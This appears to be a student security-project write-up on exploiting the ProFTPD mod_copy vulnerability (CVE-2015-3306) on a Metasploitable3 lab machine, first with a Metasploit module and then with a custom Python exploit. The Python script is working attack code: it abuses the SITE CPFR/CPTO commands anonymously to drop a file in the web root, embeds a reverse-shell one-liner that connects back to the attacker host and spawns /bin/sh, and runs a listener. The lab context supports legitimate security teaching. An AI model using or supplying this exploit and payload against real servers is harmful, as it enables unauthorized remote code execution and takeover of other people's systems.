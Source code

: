 # Phase 1: Setup and Compromise the Service

## Vulnerable Service Selection
For this project, we targeted the **ProFTPD** service on Metasploitable3. This FTP server contains a well-known vulnerability (mod_copy module) that allows an attacker to copy files within the target system without authentication.

## Environment Setup

### Victim Environment 
- **VM**: Metasploitable3 
- **IP Address**: 192.168.56.104
- **Vulnerable Service**: ProFTPD with mod_copy module enabled

### Attacker Environment
- **VM**: Kali Linux
- **IP Address**: 192.168.56.102
- **Tools**: Metasploit Framework, Custom Python Exploit

## Attack Execution

### Method 1: Using Metasploit Framework

The first attack method utilized the Metasploit Framework's `unix/ftp/proftpd_modcopy_exec` module to exploit the vulnerable ProFTPD service.

#### Steps:
1. Initiated Metasploit and selected the appropriate exploit module
2. Set the necessary parameters:
   - RHOSTS: 192.168.56.104 (Target IP)
   - LHOST: 192.168.56.102 (Attacker IP)
   - SITEPATH: /var/www/html (Web directory)
3. Executed the exploit, gaining a reverse shell on the target system

#### Exploit Execution:
![Metasploit Exploitation](https://github.com/Jaijer/Security_Project/blob/main/Phase1/img1?raw=true)

The exploit successfully:
- Connected to the FTP server
- Executed the mod_copy commands to place a PHP webshell
- Established a reverse shell connection back to our attacking machine

### Method 2: Using Custom Python Script

We developed a custom Python script that replicates the functionality of the Metasploit module but leverages Python's ftplib to interact with the ProFTPD server.

#### Script Overview:
```python
import ftplib
import socket
import sys
import threading
import time
# Configuration
RHOST = "192.168.56.104"
LHOST = "192.168.56.102"
LPORT = 4444
SITEPATH = "/var/www/html/shell.py"
FTP_PORT = 21
# Reverse shell command
payload = f"""python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{LHOST}",{LPORT}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
"""
# Listener function
def start_listener():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((LHOST, LPORT))
    s.listen(1)
    print(f"[+] Listening on {LHOST}:{LPORT}...")
    conn, addr = s.accept()
    print(f"[+] Connection from {addr}")
    while True:
        try:
            cmd = input("$ ")
            if not cmd:
                continue
            conn.send(cmd.encode() + b"\n")
            response = conn.recv(4096).decode()
            print(response)
        except KeyboardInterrupt:
            conn.close()
            s.close()
            break
# Start listener in a background thread
listener_thread = threading.Thread(target=start_listener)
listener_thread.daemon = True
listener_thread.start()
# FTP connection
try:
    ftp = ftplib.FTP()
    ftp.connect(RHOST, FTP_PORT)
    ftp.login("anonymous", "anonymous@")
    print("[+] Logged in anonymously")
    # Use SITE CPFR to prepare for file creation
    ftp.sendcmd(f"SITE CPFR /dev/stdin")
    print("[+] SITE CPFR /dev/stdin")
    # Use SITE CPTO to create the file in the web directory
    ftp.sendcmd(f"SITE CPTO {SITEPATH}")
    print(f"[+] SITE CPTO {SITEPATH}")
    # Send the payload via APPE
    ftp.storlines("APPE /dev/stdin", iter(payload.splitlines(keepends=True)))
    print("[+] Payload sent")
    ftp.quit()
    print("[+] FTP session closed")
except Exception as e:
    print(f"[!] Error: {e}")
    sys.exit(1)
# Wait for the listener to catch the shell
try:
    while True:
        time.sleep(1)
except KeyboardInterrupt:
    print("\n[+] Exiting...")
```

The script works by:
1. Setting up a listener for the reverse shell
2. Connecting to the FTP server anonymously
3. Using the SITE CPFR and SITE CPTO commands to abuse the mod_copy module
4. Placing a Python reverse shell in the web directory
5. Executing the shell to establish a connection back to our attacker machine

#### Custom Script Execution:
![Custom Script Exploitation](https://github.com/Jaijer/Security_Project/blob/main/Phase1/img2?raw=true)

The custom script successfully:
- Connected to the FTP server anonymously
- Used the SITE CPFR and CPTO commands
- Received an error that the file exists, demonstrating the vulnerability
- Established a reverse shell connection (as seen in our listening session)

## Vulnerability Analysis

The ProFTPD mod_copy module vulnerability (CVE-2015-3306) allows remote attackers to read and write to arbitrary files on the system via the SITE CPFR and SITE CPTO commands. This vulnerability exists because:

1. The mod_copy module allows copying files between locations on the server
2. No authentication is required to use these commands
3. The module doesn't properly restrict where files can be copied to or from

This vulnerability is particularly dangerous as it allows attackers to:
- Write malicious files to web directories
- Execute arbitrary code on the target system
- Create backdoors for persistent access

## Conclusion

We successfully compromised the ProFTPD service on Metasploitable3 using both Metasploit and a custom Python script. The vulnerability in the mod_copy module allowed us to place a reverse shell on the target system and execute arbitrary commands, demonstrating the severe impact of this security flaw.

In Phase 2, we will analyze the logs from both the victim and attacker machines to better understand the attack patterns and indicators of compromise.